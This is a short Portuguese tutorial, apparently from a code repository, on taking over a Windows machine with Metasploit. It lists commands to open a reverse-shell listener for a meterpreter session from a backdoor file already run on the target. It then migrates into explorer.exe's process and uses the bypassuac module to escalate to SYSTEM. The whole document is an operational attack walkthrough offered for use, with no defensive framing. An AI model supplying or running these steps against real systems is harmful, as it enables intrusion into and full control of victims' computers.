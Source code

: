 # Entrando na sessão e escalando privilegios

## Etapas

1. Como sudo , entrar no `msfconsole`
2. usar o `use multi/handler`
3. setar o payload `set payload windows/meterpreter/reverse_tcp`
4. setar o ip da sua maquina , a qual ira receber os dados `set lhost 100.000.00.0`
5. setar a porta que está no arquivo de backdoor , nesse caso a `4444`
6. `run` se o arquivo de backdoor foi executado , você está com a sessão aberta

## Agora vamos escalar os privilegios

1. começar trocando seu pid por um pid constante , digite o comando `ps` para ver uma lista de pid's , bom usar o do `explore.exe`
2. depois rodar o comando `migrate (novo pid)` para trocar o pid
3. Agora vamos usar um modulo diferente ,para ficar como admin , vamos começar deixando essa sessão de fundo com o comando `background`
4. vamos usar o modulo `use exploit/windows/local/bypassuac`
5. em seguida , temos que setar o payload, o host e a porta com os seguintes comandos
6. `set payload windows/meterpreter/reverse_tcp` para setar o payload
7. ver os `targets` e nesse caso , escolhi a arquitetua x86 , então precisar setar isso com o comando `set target 0`
8. `set lhost 000.000.00.0` para setar o host(ou seja o ip na maquina local)
9. `set lport 2022` para setar a porta , não precisa ser igual do backdoor, poder ser qualquer uma
10. agora , vamos conectar o modulo com a sessão que está aberta , pode rodar `sessions ` para ver as sessões e depois rodar `set session 1` no meu caso é a sessão 1
11. e por fim , rodar o `exploit` , com isso ele , levantará privilegios
12. para ver se funcionou mesmo , quando estiver no , meterpreter: rode o comando `getuid` se retornar `Server username: NT AUTHORITY\SYSTEM`, então funcionou corretamente
